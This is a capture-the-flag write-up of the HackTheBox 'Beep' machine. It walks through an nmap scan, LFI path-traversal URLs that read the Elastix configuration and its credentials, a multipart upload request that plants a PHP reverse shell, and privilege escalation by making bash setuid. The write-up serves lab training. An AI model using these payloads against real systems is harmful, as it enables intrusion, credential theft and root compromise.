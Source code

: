 ```yaml
---
title: "Beep"
subtitle: "HackTheBox"
author: GoProSlowYo
date: "2021-09-14"
subject: "BOXNAME Writeup"
keywords: \[HTB, HackTheBox, InfoSec\]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "0c0d0e"
titlepage-rule-color: "8ac53e"
titlepage-rule-height: 0
logo: "./logo.png"
logo-width: 6in
toc: true
toc-own-page: true
---
```


# Beep

## Overview

This was pretty quick and easy box starting with LFI we can get credentials. Then we can login and upload a reverse shell with a fule upload bypass. Finally we can call that shell via LFI again. From here the privesc was easy since our user `asterisk` had many, many sudo abilites.

## Information Gathering

### Rustscan/Nmap

```shell
$ sudo rustscan -b 8192 -u 16384 -a 10.10.10.7 -- -sS -sV -sC -oN 10.10.10.7.$(basename $PWD).nmap.txt
# Nmap 7.80 scan initiated Tue Sep 14 13:00:37 2021 as: nmap -vvv -p 80,110,111,143,443,878,993,995,10000 -sS -sV -sC -oN 10.10.10.7.beep.nmap.txt 10.10.10.7
Nmap scan report for 10.10.10.7
Host is up, received echo-reply ttl 63 (0.15s latency).
Scanned at 2021-09-14 13:00:37 PDT for 133s

PORT      STATE SERVICE  REASON         VERSION
80/tcp    open  http     syn-ack ttl 63 Apache httpd 2.2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3     syn-ack ttl 63 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING IMPLEMENTATION(Cyrus POP3 server v2) USER AUTH-RESP-CODE APOP UIDL RESP-CODES LOGIN-DELAY(0) EXPIRE(NEVER) TOP STLS
111/tcp   open  rpcbind  syn-ack ttl 63 2 (RPC #100000)
143/tcp   open  imap     syn-ack ttl 63 Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: RENAME OK ID UNSELECT LITERAL+ MULTIAPPEND RIGHTS=kxte X-NETSCAPE ACL IMAP4rev1 LISTEXT MAILBOX-REFERRALS BINARY CONDSTORE SORT THREAD=ORDEREDSUBJECT STARTTLS IDLE CATENATE CHILDREN SORT=MODSEQ ANNOTATEMORE THREAD=REFERENCES URLAUTHA0001 LIST-SUBSCRIBED UIDPLUS ATOMIC NAMESPACE QUOTA IMAP4 Completed NO
443/tcp   open  ssl/http syn-ack ttl 63 Apache httpd 2.2.3 ((CentOS))
|_http-favicon: Unknown favicon MD5: 80DCC71362B27C7D0E608B0890C05E9F
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--/localityName=SomeCity/organizationalUnitName=SomeOrganizationalUnit/emailAddress=root@localhost.localdomain
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--/localityName=SomeCity/organizationalUnitName=SomeOrganizationalUnit/emailAddress=root@localhost.localdomain
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2017-04-07T08:22:08
| Not valid after:  2018-04-07T08:22:08
| MD5:   621a 82b6 cf7e 1afa 5284 1c91 60c8 fbc8
| SHA-1: 800a c6e7 065e 1198 0187 c452 0d9b 18ef e557 a09f
| -----BEGIN CERTIFICATE-----
| MIIEDjCCA3egAwIBAgICfVUwDQYJKoZIhvcNAQEFBQAwgbsxCzAJBgNVBAYTAi0t
| MRIwEAYDVQQIEwlTb21lU3RhdGUxETAPBgNVBAcTCFNvbWVDaXR5MRkwFwYDVQQK
| ExBTb21lT3JnYW5pemF0aW9uMR8wHQYDVQQLExZTb21lT3JnYW5pemF0aW9uYWxV
| bml0MR4wHAYDVQQDExVsb2NhbGhvc3QubG9jYWxkb21haW4xKTAnBgkqhkiG9w0B
| CQEWGnJvb3RAbG9jYWxob3N0LmxvY2FsZG9tYWluMB4XDTE3MDQwNzA4MjIwOFoX
| DTE4MDQwNzA4MjIwOFowgbsxCzAJBgNVBAYTAi0tMRIwEAYDVQQIEwlTb21lU3Rh
| dGUxETAPBgNVBAcTCFNvbWVDaXR5MRkwFwYDVQQKExBTb21lT3JnYW5pemF0aW9u
| MR8wHQYDVQQLExZTb21lT3JnYW5pemF0aW9uYWxVbml0MR4wHAYDVQQDExVsb2Nh
| bGhvc3QubG9jYWxkb21haW4xKTAnBgkqhkiG9w0BCQEWGnJvb3RAbG9jYWxob3N0
| LmxvY2FsZG9tYWluMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC3e4HhLYPN
| gwJ4eKlW/UpmemPfK/a3mcafSqx/AJP34OC0Twj/cZNaqFPLOWfNjcq4mmiV++9a
| oJCkj4apDkyICI1emsrPaRdrlA/cCXcn3nupfOgcfpBV4vqNfqorEqpJCO7T4bcp
| Z6YHuxtRtP7gRJiE1ytAFP2jDvtvMqEWkwIDAQABo4IBHTCCARkwHQYDVR0OBBYE
| FL/OLJ7hJVedlL5Gk0fYvo6bZkqWMIHpBgNVHSMEgeEwgd6AFL/OLJ7hJVedlL5G
| k0fYvo6bZkqWoYHBpIG+MIG7MQswCQYDVQQGEwItLTESMBAGA1UECBMJU29tZVN0
| YXRlMREwDwYDVQQHEwhTb21lQ2l0eTEZMBcGA1UEChMQU29tZU9yZ2FuaXphdGlv
| bjEfMB0GA1UECxMWU29tZU9yZ2FuaXphdGlvbmFsVW5pdDEeMBwGA1UEAxMVbG9j
| YWxob3N0LmxvY2FsZG9tYWluMSkwJwYJKoZIhvcNAQkBFhpyb290QGxvY2FsaG9z
| dC5sb2NhbGRvbWFpboICfVUwDAYDVR0TBAUwAwEB/zANBgkqhkiG9w0BAQUFAAOB
| gQA+ah2n+bomON94KgibPEVPpmW+8N6Sq3f4qDG54urTnPD39GrYHvMwA3B2ang9
| l3zta5tXYAVj22kiNM2si4bOMQsa6FZR4AEzWCq9tZS/vTCCRaT79mWj3bUvtDkV
| 2ScJ9I/7b4/cPHDOrAKdzdKxEE2oM0cwKxSnYBJk/4aJIw==
|_-----END CERTIFICATE-----
|_ssl-date: 2021-09-14T20:04:46+00:00; +3m24s from scanner time.
878/tcp   open  status   syn-ack ttl 63 1 (RPC #100024)
993/tcp   open  ssl/imap syn-ack ttl 63 Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3     syn-ack ttl 63 Cyrus pop3d
10000/tcp open  http     syn-ack ttl 63 MiniServ 1.570 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 74F7F6F633A027FA3EA36F05004C9341
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts: 127.0.0.1, example.com

Host script results:
|_clock-skew: 3m23s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 14 13:02:50 2021 -- 1 IP address (1 host up) scanned in 133.58 seconds
```

## Foothold
 
There's a lot to look at from the nmap scan but we started at the webserver and thankfully we didn't need to go much further.

`searchsploit elastix` gave us about 7-8 different vulnerabilites to try out. Only two or three of them were really interesting and only [the LFI exploit here](https://www.exploit-db.com/exploits/37637) worked for us.

```shell
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
# This file is part of FreePBX.
[...snip...]
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jE********jE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jE********jE
```

---

![LFI of the asterix config](./lfi.png)

Don't forget to get the `user.txt` flag:

```text
https://10.10.10.7/vtigercrm/graph.php?module=Accounts&action&current_language=../../../../../../../..//home/fanis/user.txt%00
```

---

We combined this LFI with a [file upload vulnerability found here](https://www.exploit-db.com/exploits/15098) to upload a reverse shell. Our payload looked like so:

```text
POST /admin/config.php HTTP/1.1
Host: 10.10.10.7
Cookie: ui-tabs-1=0; setup-e3afed0047b08059d0fada10f400c1e5=expanded; setup-972e73b7a882d0802a4e3a16946a2f94=expanded; setup-7eec029e6d0d83dcd40bc218cbc04e85=expanded; setup-fcc42e3dc88422b722c17e20c26a39a1=expanded; tool-e3afed0047b08059d0fada10f400c1e5=expanded; tool-db5eb84117d06047c97c9a0191b5fffe=expanded; tool-afde5a73d112b230adb0e3b203265409=expanded; tool-b988b61dd9ca7cbbea7d68b6b24d749f=expanded; testing=1; elastixSession=qm22nnf0t4kj7vmos7tbvqs9l4; UICSESSION=0bja4tgs6ugnh32h6e4n41d8u2; PHPSESSID=unb061vhh3i61iblninudqf8u6; ARI=r06i1aq8fbsf3b7n2gq0pfgf15
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------34552388739721209383999095614
Content-Length: 4534
Origin: https://10.10.10.7
Authorization: Basic YWRtaW46akVoZElla1dtZGpF
Referer: https://10.10.10.7/admin/config.php
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

-----------------------------34552388739721209383999095614
Content-Disposition: form-data; name="display"

recordings
-----------------------------34552388739721209383999095614
Content-Disposition: form-data; name="action"

recordings_start
-----------------------------34552388739721209383999095614
Content-Disposition: form-data; name="usersnum"

../../../../../var/www/html/admin/rev
-----------------------------34552388739721209383999095614
Content-Disposition: form-data; name="ivrfile"; filename="rev.php"
Content-Type: application/octet-stream

  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
 [...snip...]
  ?> 
  
-----------------------------34552388739721209383999095614--
```

![Upload a Reverse Shell with Upload Bypass](./upload.png)

Finally we call our uploaded file for a shell.

```shell
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//var/lib/asterisk/sounds/custom/rev.php%00&module=Accounts&action
```

![Get Foothold via PHP Reverse Shell](./foothold.png)

## Privilege Escalation

From here we simply ran `sudo -l` and our current user (`asterisk`) had a pretty ridiculously **risk**y set of permissions. So let's just abuse that.

I used `chmod` to add the `setuid (+s)` bit to the `bash` binary and then ran `/bin/bash -p` to preserve root privileges and not drop them. Get flag and claim victory.

![Privesc to Root via setuid Bash](./privesc.png)


